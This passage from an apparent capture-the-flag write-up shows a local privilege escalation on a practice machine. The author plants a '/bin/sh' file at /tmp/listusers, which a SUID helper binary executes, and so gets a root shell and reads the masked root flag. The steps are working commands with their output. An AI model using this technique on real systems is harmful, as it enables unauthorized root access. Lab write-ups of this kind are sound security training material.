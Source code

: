 ```
.got.plt
.data
.bss
.comment

```

its looking for a file in /tmp folder called listusers...

we can run it to test...

```

djmardov@irked:~/Documents$ /usr/bin/viewuser
/usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-08-10 15:07 (:0)
sh: 1: /tmp/listusers: not found

```

Perhaps we can create a malicious /tmp/listusers file...

```

djmardov@irked:~/Documents$ echo '/bin/sh' >/tmp/listusers
echo '/bin/sh' >/tmp/listusers
djmardov@irked:~/Documents$ 
djmardov@irked:~/Documents$ chmod 777 /tmp/listusers
chmod 777 /tmp/listusers

```
Now we've got a /tmp/listusers file thats executable, and will just invoke a `sh` shell. Lets execute viewusers again...

```

djmardov@irked:~/Documents$ /usr/bin/viewuser
/usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-02-23 09:24 (:0)
# whoami
whoami
root

```

Now grab root flag!!!


```

# cd /root
cd /root
# ls
ls
pass.txt  root.txt
# cat root.txt
cat root.txt
8dxxxxxxxxxxxxxxxxxxxxxxxxxxxxf3

```

:)

